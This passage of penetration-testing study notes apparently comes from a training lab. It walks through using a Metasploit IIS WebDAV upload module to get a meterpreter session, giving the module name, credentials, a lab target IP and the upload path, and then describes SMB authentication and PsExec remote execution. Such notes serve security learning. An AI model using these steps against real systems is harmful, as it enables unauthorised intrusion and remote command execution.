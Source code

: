 Once your in
+ Can confirm it started with `sysinfo`
+ Can check privileges with `getuid`

#### Automated Way ####
Can use <mark style="background: #FF5582A6;">msfconsole</mark> to automate this process 
+ will `search iis upload`
	+ and `use exploit/windows/iis/iis_webdav_upload_asp`
	+ Will give us a meterpreter session automatically, with the following options set
		+ `set HttpUsername bob`
		+ `set HttpPassword password_123321`
		+ `set RHOSTS 10.3.22.26` (target IP)
		+ `set PATH /webdav/metasploit.asp` (webdav directory is where it is hosted and the name is set for the asp file)
		+ Can now run/exploit 
+ Will <mark style="background: #ADCCFFA6;">automatically delete the payload, and will be given a meterpreter session</mark>
+ can also delete with <mark style="background: #D2B3FFA6;">cadaver</mark>

### Exploiting SMB With PsExec ###

#### SMB ####
+ <mark style="background: #BBFABBA6;">SMB</mark> (`Server Message Block`) is a network file sharing protocol used to share files and peripherals (printers and serial ports) between computers on a LAN
+ SMB used TCP port 445, originally SMB ran on top of NetBIOS using port 139
+ <mark style="background: #BBFABBA6;">SAMBA</mark> is the open source Linux implementation of SMB, allows Windows systems to access Linux shares and drives

#### SMB Authentication ####
+ SMB protocol utilizes two levels of authentication 
	+ **User** Authentication 
	+ **Share** Authentication 
+ <mark style="background: #FFF3A3A6;">User authentication</mark> - Users must provide a username and password in order to authenticate with the SMB server in order to access a share 
+ <mark style="background: #FFF3A3A6;">Share authentication</mark> - Users must provide a password in order to access restricted share 

<mark style="background: #FF5582A6;">Note</mark>:  Both of the authentication levels utilize a challenge response authentication system

![](SMBAuth.png)

#### PsExec ####
+ <mark style="background: #D2B3FFA6;">PsExec</mark> is a lightweight <mark style="background: #ADCCFFA6;">telnet-replacement</mark> developed by Microsoft that allows you to <mark style="background: #ADCCFFA6;">execute processes on remote Windows system</mark> using any user's credentials 
+ PsExec authentication is performed <mark style="background: #FFF3A3A6;">via SMB</mark>
+ Can use <mark style="background: #D2B3FFA6;">PsExec</mark> utility to <mark style="background: #ADCCFFA6;">authenticate with the target system legitimately and run arbitrary commands</mark> or launch a remote command prompt 
+ Very similar to RDP, but controlled <mark style="background: #FFF3A3A6;">via CLI</mark>

